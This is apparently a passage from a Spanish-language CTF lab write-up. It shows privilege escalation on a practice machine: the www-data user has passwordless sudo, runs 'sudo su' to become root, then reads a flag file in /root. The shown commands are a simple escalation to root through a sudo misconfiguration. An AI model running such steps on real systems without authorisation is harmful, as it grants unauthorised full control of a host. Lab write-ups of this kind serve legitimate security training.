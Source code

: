 Podemos observar que el usuario `www-data` tiene permisos para ejecutar cualquier comando en el sistema sin necesidad de ingresar una contraseña. Por lo tanto, podemos cambiar fácilmente al usuario `root` utilizando el comando `sudo su`, aprovechando esta configuración de permisos del servidor.

```bash
www-data@ip-10-10-116-102:/var/www/html$ sudo su
sudo su
id
uid=0(root) gid=0(root) groups=0(root)
```

Ahora, como usuario `root`, podemos acceder a su directorio principal y leer el último ingrediente.

```bash
cd /root
ls
3rd.txt
snap
cat 3rd.txt
3rd ingredients: ***** *****
```

¡Happy Hacking!
